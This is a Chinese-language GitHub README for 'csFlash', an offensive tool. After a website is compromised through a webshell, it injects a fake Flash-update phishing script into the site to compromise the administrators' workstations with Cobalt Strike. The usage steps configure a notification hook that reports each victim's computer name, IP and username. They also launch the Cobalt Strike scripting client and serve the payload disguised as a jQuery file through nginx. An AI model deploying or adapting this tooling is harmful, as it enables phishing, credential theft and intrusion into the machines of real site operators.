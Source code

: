# csFlash
适用于拿到webshell进行cs后渗透钓鱼

## 效果
当获取到webshell时，想获得运维人员工作主机权限，可在web中插入js钓鱼页面

参考 https://github.com/r00tSe7en/Flash-Pop
![image](https://user-images.githubusercontent.com/38282439/197719314-d685b6ec-b007-4097-a0a0-2f7e6463de53.png)

此项目实现cs上线后自动隐藏功能


## 使用方法

1.在*CS-PushPlus/PushPlus.py*配置好webhook的token，默认使用推送加，可自定义修改为钉钉、企业微信
<img width="714" alt="image" src="https://user-images.githubusercontent.com/38282439/197714243-1df4c320-b337-41c9-ba59-b455a459847f.png">

并配置好数据库文件路径

<img width="608" alt="image" src="https://user-images.githubusercontent.com/38282439/197714659-e8ce0270-b61d-4f27-b985-e894cc50b76c.png">

2.配置好*CS-PushPlus/PushPlus.cna*文件中绝对路径

```
$cmd = 'python3 /CS-PushPlus/PushPlus.py' . " --computernam " . $computerName . " --externalip " . $externalIP . " --username " . $userName;
```

3.启动cs teamserver 、连接cna脚本置于后台
```
./agscript.sh 127.0.0.1 50050 User Pass ./CS-PushPlus/PushPlus.cna
```

4.启动js服务并置于后台，需要修改ssl证书信息
（也可使用http服务，但不建议，否则可能在https站点无法加载此js文件）
```
python3 flaskHttpd.py 
```
5.于nginx等web服务器配置，或开启防火墙使得能够通过路径访问到此flask服务
```
        location /public/common/libs/jquery/jquery-1.9.1.min.js {
                proxy_pass $flaskHttpd;
                }
```
